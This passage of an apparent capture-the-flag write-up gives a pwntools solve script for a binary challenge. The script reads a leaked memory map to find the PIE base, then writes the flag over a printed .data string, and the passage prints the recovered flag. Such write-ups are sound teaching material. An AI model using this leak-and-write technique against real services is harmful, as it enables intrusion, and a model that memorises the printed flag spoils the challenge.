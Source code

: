 ```bash
7ffd5fb05000-7ffd5fb26000 rw-p 00000000 00:00 0                          [stack]
7ffd5fbe5000-7ffd5fbe9000 r--p 00000000 00:00 0                          [vvar]
7ffd5fbe9000-7ffd5fbeb000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]
```

Therefore, we'll write a script to parse this response and calculate the correct address. We'll send that address when requested and the next time the loop executes, it will print the newly written data (🚩).

## Solve Script
```python
from pwn import *

io = remote('wfw1.2023.ctfcompetition.com',1337)
context.log_level='info'

# Offset to the string in .data section, which is printed in while loop
data_string_offset = 0x21e0

# Find the piebase
maps = io.recvuntil(b'/home/user/chal')
maps = maps.split(b'/home/user/chal')[0].split(b'\n')[-1]
piebase = int(maps[:12], 16)
pieend = int(maps[13:-48], 16)

info("Pie base: %#x", piebase)
info("Pie end: %#x", pieend)
io.recvuntil(b'expire\n')

# Send address of label in .data, it will be overwritten with flag
# Then on the next iteration of the loop, it will print
io.sendline(hex(piebase + data_string_offset).encode() + b' 127')

# Flag plz
warning(io.recv().decode())
```

We run the script and get the flag.
```json
CTF{Y0ur_j0urn3y_is_0n1y_ju5t_b39innin9}
```